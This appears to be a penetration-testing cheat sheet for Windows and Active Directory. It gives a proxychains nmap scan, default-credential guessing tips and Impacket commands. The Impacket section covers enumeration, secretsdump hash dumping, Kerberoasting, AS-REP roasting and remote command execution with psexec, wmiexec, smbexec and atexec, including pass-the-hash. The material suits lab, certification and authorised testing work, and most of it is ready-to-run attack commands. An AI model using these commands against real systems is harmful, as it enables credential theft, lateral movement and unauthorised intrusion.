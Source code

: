 ```bash
proxychains nmap -vvv -sT --top-ports=20 -Pn -n INTERNAL
```

# Dealing with Passwords

## When you suspect brute forcing or have cracked some hashes:

    - Have a valid usernames first
    - Dont firget trying `admin:admin`
    - Try `username:username` as first credential, 'service:service' (like jenkins:jenkins)
    - If it’s related to a service, try default passwords.
    - Service name as the username as well as the same name for password.
    - Use rockyou.txt

# Impacket

```bash
# We connect to the server rather than a share
impacket-smbclient [domain]/[user]:[password/password hash]@[Target IP Address] 

# User enumeration on target
impacket-lookupsid [domain]/[user]:[password/password hash]@[Target IP Address] 

# Service enumeration
impacket-services [domain]/[user]:[Password/Password Hash]@[Target IP Address] [Action] 

# Dumping hashes on target
impacket-secretsdump [domain]/[user]:[password/password hash]@[Target IP Address]  

# Kerberoasting, and request option dumps TGS
impacket-GetUserSPNs [domain]/[user]:[password/password hash]@[Target IP Address] -dc-ip IP -request  

# Asreproasting, need to provide usernames list
impacket-GetNPUsers test.local/ -dc-ip IP -usersfile usernames.txt -format hashcat -outputfile hashes.txt 

# Automated with https://github.com/Br14n41/asrep-roaster
./asrep-roaster.sh example.com 10.10.10.1 /usr/share/wordlists/users.txt


# RCE
impacket-psexec test.local/john:password123@10.10.10.1
impacket-psexec -hashes lmhash:nthash test.local/john@10.10.10.1

impacket-wmiexec test.local/john:password123@10.10.10.1
impacket-wmiexec -hashes lmhash:nthash test.local/john@10.10.10.1

impacket-smbexec test.local/john:password123@10.10.10.1
impacket-smbexec -hashes lmhash:nthash test.local/john@10.10.10.1

impacket-atexec test.local/john:password123@10.10.10.1 <command>
impacket-atexec -hashes lmhash:nthash test.local/john@10.10.10.1 <command>

```
